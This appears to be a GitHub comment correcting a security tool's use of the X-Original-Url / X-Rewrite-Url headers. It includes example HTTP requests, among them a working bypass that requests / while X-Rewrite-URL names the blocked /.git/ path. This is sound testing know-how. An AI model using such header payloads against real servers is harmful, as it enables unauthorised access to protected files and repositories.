# X-Original-Url / X-Rewrite-Url

Hey, I think you are using `X-Original-Url / X-Rewrite-Url` vector in a wrong way. These headers usually help to bypass front server rules, which are based on URI, but you don't change URI while using these headers.

First, normal request returns 403:

```
GET /.git/ HTTP/1.1
Host: example.com
```

This attempt to bypass will return 403 too, because URI hasn't changed and the rule still applies:

```
GET /.git/ HTTP/1.1
Host: example.com
X-Rewrite-URL: /.git/
```

This one should bypass the restriction:

```
GET / HTTP/1.1
Host: example.com
X-Rewrite-URL: /.git/
```
